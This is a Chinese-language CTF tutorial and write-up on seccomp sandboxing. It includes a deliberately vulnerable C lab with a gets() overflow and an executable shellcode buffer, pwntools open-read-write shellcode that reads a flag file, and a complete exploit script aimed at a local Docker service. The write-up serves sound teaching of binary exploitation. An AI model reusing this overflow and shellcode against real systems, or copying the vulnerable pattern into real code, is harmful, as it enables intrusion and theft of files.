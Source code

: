 ```yaml
---
title: "Day19－Shellcode Bonus－ORW"
date: 2024-09-19
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天我們將介紹一些簡單的知識，並在最後提供一個練習 Lab。看完前面的內容，大家可能會想：「如果我們可以調用 `execve`，那是否就能拿到 shell 呢？」這確實沒錯，但還有一種方法可以防止使用者調用 `execve` 系統呼叫 (syscall)，這就是 `seccomp` 的機制。

## Seccomp (secure computing mode)

`seccomp` 是 Linux 核心用來禁用特定系統呼叫的機制，透過 `Seccomp BPF` 可以設定對某些 syscall 的過濾規則。例如，可以限制 `execve`，甚至 `open`、`read`、`write` 等等。

但在實作這些規則後，逆向工程的過程可能變得不直觀且困難理解。為了簡化分析，`one gadget` 工具的作者還開發了一個工具，叫做 `seccomp-tools`，非常適合這類情況。

## [seccomp-tools](https://github.com/david942j/seccomp-tools)

**筆者提供的環境中已經安裝了該工具**

這個工具能分析程式的 `seccomp` 規則，並將結果轉換成直觀的 `if-else` 形式的 pseudo code。這讓我們能輕鬆看出程式允許或限制了哪些 syscall，非常適合處理複雜的 `seccomp` 規則。

使用方式如下：

```bash
seccomp-tools dump ./[binary]
```

![image](/images/iron2024/day19_image1.png)

## Lab

查看以下原始碼：

```c
#include <stdio.h>
#include <sys/mman.h>
#include <unistd.h>
#include "seccomp-bpf.h"

void apply_seccomp() {
    struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        KILL_PROCESS,
    };

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(struct sock_filter)),
        .filter = filter,
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)) {
        perror("Seccomp Error");
        exit(1);
    };
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog)) {
        perror("Seccomp Error");
        exit(1);
    };
}
char shellcode[0x100];
int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    apply_seccomp();
    printf("I add new rule to prevent you from using system().\n");
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

## writeup

可以發現程式將 `shellcode` 陣列的位置修改為可讀、可寫、可執行，並且在程式中允許使用者輸入 shellcode。程式中最關鍵的是 `gets` 的 buffer overflow 且沒有開啟 PIE 與 Canary，這讓我們能夠控制 return address。再者，程式使用了 `Seccomp` 規則，只允許 `open`、`read`、`write` 這三個 syscall，因此我們無法使用 `execve` 獲取 shell。此時我們可以透過 `seccomp-tools` 來確認。

![image](/images/iron2024/day19_image2.png)

換個角度思考，我們獲取 shell 的目的是為了拿到 flag。程式允許我們開啟檔案、讀取檔案並輸出內容，因此如果知道 flag 的位置，我們可以直接開檔讀取並輸出，如此即可拿到 flag。接下來我們需要確認幾件事：

- flag 檔案的位置
- 如何開啟、讀取、輸出檔案
- shellcode 的位置

首先，讓我們查看提供的檔案目錄：

![image](/images/iron2024/day19_image3.png)

從 `Dockerfile` 開始分析，會發現 Docker 創建了 `ubuntu:22.04` 的容器，並且設定了與網路服務相關的 `xinetd`。從目錄結構可以推測 flag 位於 `/home/orw/flag`。

```dockerfile
FROM ubuntu:22.04
LABEL org.opencontainers.image.authors="YJK"
RUN apt-get update
RUN apt-get install xinetd -y
RUN useradd -m orw
RUN chown -R root:root /home/orw
RUN chmod -R 755 /home/orw
CMD ["/usr/sbin/xinetd", "-dontfork"]
```

以下是負責此題的 `docker-compose.yml`，可以看到 `orw/share` 被掛載到容器的 `/home/orw`，因此 flag 的位置應該是 `/home/orw/flag`。

```yml=
orw:
    build: ./orw
    volumes:
      - ./orw/share:/home/orw:ro
      - ./orw/xinetd:/etc/xinetd.d/orw:ro
    ports:
      - "10010:10005"
```

接下來，我們可以透過 `pwntools` 的 `shellcraft` 來生成可以開啟 `/home/orw/flag` 並讀取其內容的 shellcode。

以下程式就會生成可以使用來開啟 `/home/orw/flag` 再讀檔並輸出到 stdin 的 shellcode，那基本上這段程式的執行大概會是先將 `'/home/orw/flag'` 字串放到 stack，並且再透過 `open` 將 `rsp` 的內容，也就是剛剛放入 stack 的檔案路徑打開，並且後面的兩個 0 是作為設定開檔模式與設定權限的部分，再來透過 `read` 將 `rsp` 指向的檔案讀取並儲存，`rax` 是用來讀取檔案，再來透過 `write` 將 `rsp` 剛剛讀取並存入的內容輸出，並且前面的 1 為設定為 stdin，在此時即可以看到檔案內容

```python
shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))
```

最後，我們需要確認溢出的 padding 和跳轉的地址。可以使用 `nm` 確定 shellcode 的地址。

![image](/images/iron2024/day19_image4.png)

使用 `objdump` 可以發現輸入從 `rbp-0x20` 開始，因此我們需要填充 0x20+0x8 的資料，然後跳轉到 shellcode。

![image](/images/iron2024/day19_image5.png)

完整 exploit：

```python
from pwn import *
context.arch = 'amd64'
# r = process('../orw/share/orw')
r = remote('127.0.0.1', 10010)

shellcode = b""

shellcode += asm(shellcraft.pushstr('/home/orw/flag'))
shellcode += asm(shellcraft.open('rsp', 0, 0))
shellcode += asm(shellcraft.read('rax', 'rsp', 0x100))
shellcode += asm(shellcraft.write(1, 'rsp', 0x100))

r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x4040a0)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved!!!

![image](/images/iron2024/day19_image6.png)
